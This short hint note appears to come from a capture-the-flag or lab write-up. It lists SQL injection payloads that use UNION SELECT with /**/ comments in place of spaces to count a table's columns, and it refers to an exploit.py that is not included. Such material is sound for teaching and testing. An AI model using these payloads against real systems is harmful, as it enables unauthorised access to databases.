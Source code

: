 # Hint
Check the amount of columns of this table
```
test\'OR/**/1=2/**/Union/**/Select/**/1#
test\'OR/**/1=2/**/Union/**/Select/**/1,2#
...
```

See exploit.py for detail
